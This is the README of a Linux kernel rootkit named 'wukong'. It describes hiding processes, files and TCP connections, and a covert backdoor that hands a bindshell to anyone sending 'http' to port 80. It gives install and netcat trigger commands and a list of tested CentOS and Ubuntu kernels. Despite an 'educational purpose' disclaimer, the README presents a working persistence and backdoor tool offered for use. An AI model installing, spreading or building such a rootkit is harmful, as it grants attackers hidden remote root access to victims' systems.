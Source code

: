 # wukong
<br />
<br />
<br />
<h1>
	Note:
</h1>
<p>
	<strong>Wukong is s LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x.</strong>
</p>
<p>
	<strong>This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong>
</p>
<br />
<br />
<h1>
	Function
</h1>
<strong>1. Hide Linux Process.</strong><br />
<strong>2. Hide TCP connection.</strong><br />
<strong>3. Hide File/Directory.</strong><br />
<strong>4. Redirect TCP connection to backdoor server by using the specific confidential password.</strong><br />
<br />
<h1>
	Usage
</h1>
<h2>
	1. Environment:
</h2>
ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
<br />
<h2>
	2. Test step:
</h2>
<h3>
	a. on server
</h3>
cd wukong/<br />
sudo ./install.pl<br />
<br />
sudo nc -k -l 80<br />
<br />
<h3>
	b. on client
</h3>
nc 1.1.1.1 80<br />
http<br />
ifconfig<br />
<br />
PS：The connection will be redirected to bindshell<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
<br />
PS: a rst will be received.<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
aaaaaa<br />
<br />
PS: The connection will be connected with tcp 80.<br />
<br />
<h2>
	3. Result:
</h2>
<strong>a. Hide bindshell file.</strong><br />
<strong>b. Hide tcp 8000 connection.</strong><br />
<strong>c. Hide bindshell process</strong><br />
<strong>d. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.</strong><br />
<br />
<br />
<h1>
	Tested OS:
</h1>
CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
